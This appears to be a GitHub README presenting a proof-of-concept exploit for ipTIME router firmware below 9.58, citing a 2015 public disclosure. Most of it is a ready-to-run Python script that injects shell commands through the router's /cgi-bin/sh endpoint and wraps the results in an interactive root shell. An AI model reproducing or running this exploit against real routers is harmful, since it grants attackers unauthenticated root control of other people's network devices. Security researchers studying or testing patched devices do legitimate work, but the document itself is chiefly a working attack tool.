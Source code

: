 # ipTIME Router firmwares < 9.58 RCE with root privileges
## The Basics
<b>Product :</b> <a href="https://pierrekim.github.io/blog/2015-05-05-127-iptime-routers-wifiaps-modems-firewalls-models-vulnerable-with-RCE-with-root-privileges.html">total 127 devices were affected (ipTIME Router firmwares < 9.58)</a></br>
<b>Tested Version :</b> ipTIME N604R Version 9.24</br>
<b>Bug-class :</b> Remote Code Execution (Command Injection)</br>

## Exploit PoC
```python
import os
import sys
import requests

def exploit(command, current_dir):
    url = 'http://192.168.0.1/cgi-bin/sh'
    headers = {
        'Content-Type': 'text/plain',
        'User-Agent': 'Mozilla/5.0'
    }
    if not command.endswith(';'):
        command+=";"
    data = f"X=X;echo 'Content-type: text/plain';echo;cd {current_dir};{command}"
    res = requests.post(url, headers=headers, data=data)
    return res.text

if __name__ == "__main__":
    current_dir = "/"
    while True:
        command = input(f"[ root@192.168.0.1:{current_dir} ]\n $ ")
        if command.startswith("cd "):
            path = command.split(" ", 1)[1]
            current_dir = os.path.normpath(os.path.join(current_dir, path))
            continue
        elif command == "clear" or command == "cls":
            os.system("clear")
        elif command == "exit":
            sys.exit()
        else:
            try:
                result = exploit(command, current_dir)
                if command.strip().startswith("pwd"):
                    current_dir = result.strip()
                print('\n' + result)
            except:
                pass
```

## Reference
<a href="https://pierrekim.github.io/blog/2015-07-01-poc-with-RCE-against-127-iptime-router-models.html">https://pierrekim.github.io/blog/2015-07-01-poc-with-RCE-against-127-iptime-router-models.html</a>
